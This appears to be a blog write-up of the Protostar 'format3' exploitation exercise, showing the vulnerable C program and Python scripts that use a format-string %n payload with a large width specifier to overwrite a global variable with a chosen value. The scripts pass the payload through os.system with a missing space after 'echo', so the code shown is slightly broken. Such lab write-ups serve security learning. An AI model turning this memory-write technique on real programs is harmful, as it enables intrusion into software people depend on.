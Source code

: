 ```yaml
---
layout: post
title: "Writing Large Values to Specific Targets: protostar format3“
date: 2019-9-10
---
```

The challenge is not much different from the last, the only difference here is that the value we will write to the target is much larger.
{% highlight c%}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void printbuffer(char *string)
{
  printf(string);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printbuffer(buffer);
  
  if(target == 0x01025544) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %08x :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
{% endhighlight %}
Once again, let's find the address of the target.
![format3-1](/assets/format3-1.png)
Unsurprisingly, this is at 0x80496f4. So we at least have that out of the way. 

The next thing we should do is try changing its value.
![format3-2](/assets/format3-2.png)
Ok, so there is works the same way as before. But now we need to make the value equal 0x01025544.
![format3-3](/assets/format3-3.png)
As one can see, it looks like we can't get the value of target to equal something as big as it needs to be. After a certain amount, the value just turns to 0. 

How then do we deal with this?

The link below basically does what I am trying to do, so it can show us the way.
https://null-byte.wonderhowto.com/how-to/exploit-development-write-specific-values-memory-with-format-string-exploitation-0182112/

Writing scripts is useful. We should begin writing an exploit script, because we are going to to be dealing with a lot of numbers.
{% highlight python %}
import struct 
import os

target = struct.pack("I", 0x080496f4)
junk = "%x"
payload = target + junk + "%x."*10 + "%n"

os.system("echo" + payload + " | /opt/protostar/bin/format3")
{% endhighlight %}
This is just doing what we were typing previously. 

The target is put in first then 11 bytes along the stack, we are at the spot we are dumbing our data.
![format3-4](/assets/format3-4.png)
Same result as before, at least this proves our program is doing as we should.

Now we need to find out how much the value junk is going to be. I think a good way to start this, since this is roughly the amount we are increasing our target by, would be with the value we want, 0x01025544.

This will be switched out of hex for the format specifier. I am going to use python to convert hex to decimal. I will also subtract our value by 0x4b, the number the target is equal to when we run this without our junk value.
![format3-5](/assets/format3-5.png)
This is what we will try using as my format specifier. 
{% highlight python %}
import struct 
import os

target = struct.pack("I", 0x080496f4)
junk = "%16930041x"
payload = target + junk + "%x."*10 + "%n"

os.system("echo" + payload + " | /opt/protostar/bin/format3")
{% endhighlight %}
Note that running this will take more time than any of the exploits up to this point. Have patience. Maybe go get some tea while it's running.

Running this, it doesn't quite become our value, it is one below. 
![format3-6](/assets/format3-6.png)
{% highlight python %}
import struct 
import os

target = struct.pack("I", 0x080496f4)
junk = "%16930042x"
payload = target + junk + "%x."*10 + "%n"

os.system("echo" + payload + " | /opt/protostar/bin/format3")
{% endhighlight %}
We increase the format specifier by 1.

And wait a whole 2 minutes.
[format3-7](/assets/format3-7.png)
Well, we did it. As for why subtracting 4b gave us a number off by one, I should have realized that likely since we put one into the number initially there, 4b is the amount stored plus one, input by our "%x", which has an implied 1.
The base number is likely 4a.

This challenge, I personally found difficult, but fun. It's good when you have to do a bit of digging, playing with a debugger and reading information. 
![aesthetic1](/assets/aesthetic1.jpg)
Anyways, time for some rest.